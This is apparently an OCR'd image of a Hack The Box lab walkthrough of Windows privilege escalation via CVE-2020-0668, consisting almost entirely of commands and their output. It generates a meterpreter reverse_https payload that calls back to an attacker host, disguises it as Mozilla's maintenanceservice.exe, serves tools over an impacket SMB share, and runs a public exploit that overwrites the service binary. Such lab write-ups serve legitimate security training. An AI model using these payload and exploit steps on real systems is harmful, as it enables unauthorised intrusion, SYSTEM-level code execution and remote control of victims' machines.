 Successfully processed 1 files; Failed processing 0 files


msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.60 LPORT=8443 -f exe > maintenanceservice.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 736 bytes
Final size of exe file: 7168 bytes

sudo impacket-smbserver share -smb2support /home/htb-ac-786011/ -user test -password test

c:\Users\htb-student>net use n: \\10.10.14.60\share /user:test test
The command completed successfully.

git clone https://github.com/bypazs/CVE-2020-0668.exe



c:\Users\htb-student>copy n:\CVE-2020-0668.exe\CVE-2020-0668.exe
        1 file(s) copied.

c:\Users\htb-student>copy n:\maintenanceservice.exe
        1 file(s) copied.

c:\Users\htb-student\CVE-2020-0668.exe c:\Users\htb-student\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"   

Unhandled Exception: System.IO.FileNotFoundException: Could not load file or assembly 'NtApiDotNet, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null' or one of its dependencies. The system cannot find the file specified.
   at CVE_2020_0668.Program.Main(String[] args)

CVE-2020-0668.exe
copy n:\CVE-2020-0668.exe\CVE-2020-0668.exe.config
copy n:\CVE-2020-0668.exe\CVE-2020-0668.pdb
copy n:\CVE-2020-0668.exe\NtApiDotNet.dll
copy n:\CVE-2020-0668.exe\NtApiDotNet.xml

move maintenanceservice.exe maintenanceservice2.exe

copy n:\maintenanceservice.exe

c:\Users\htb-student\CVE-2020-0668.exe c:\Users\htb-student\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

[+] Moving c:\Users\htb-student\maintenanceservice.exe to C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
[+] Mounting \RPC Control onto C:\Users\htb-student\AppData\Local\Temp\04z4pafb.22f
[+] Creating symbol links
[+] Updating the HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Tracing\RASPLAP configuration.
[+] Sleeping for 5 seconds so the changes take effect
[+] Writing phonebook file to C:\Users\htb-student\AppData\Local\Temp\7e6cf7ba-e367-40c0-b37f-7bd6cdffd251.pbk
[+] Cleaning up
[+] Done!
